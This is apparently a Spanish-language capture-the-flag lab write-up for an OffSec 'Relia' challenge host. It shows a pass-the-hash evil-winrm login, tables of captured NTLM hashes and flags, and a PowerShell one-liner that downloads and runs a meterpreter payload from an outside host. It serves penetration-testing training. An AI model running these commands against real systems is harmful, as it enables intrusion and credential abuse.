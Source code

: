 - **Con estas credenciales nos aseguramos el acceso al host LEGACY**

```
┌──(root㉿kali)-[/home/kali/OffSec/Challenges/2_Relia]
└─# evil-winrm -i 192.168.180.249 -u 'damon' -H 820d6348890893116880101307197052 -P 5985 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\damon\Documents> 
```


### Tabla de credenciales

| hostname | user | NTLM | password | 
|----------|------|------|----------|
|**LEGACY**| Administrator | 387aef0561b65e4f3cae0960b0fba2d5 | [x] |
|          | adrian | e3cea06e2de8d54d43b84d4b5bffb5b0 | [x] |
|          | damon | 820d6348890893116880101307197052 | [x] |


### Tabla de flags

| **hostname** | local | proof |
|--------------|-------|-------|
| **LEGACY** | 6de2be6545730d15382906e9f34e3db8 | bda74c52627c3c64c3f59514ca124ed7 |
|

## Troubleshooting
1. Tener el handler ya configurado y ejecutado a la hora de ejecutar el comando:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.239:8000/meterpreter.ps1')
```

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

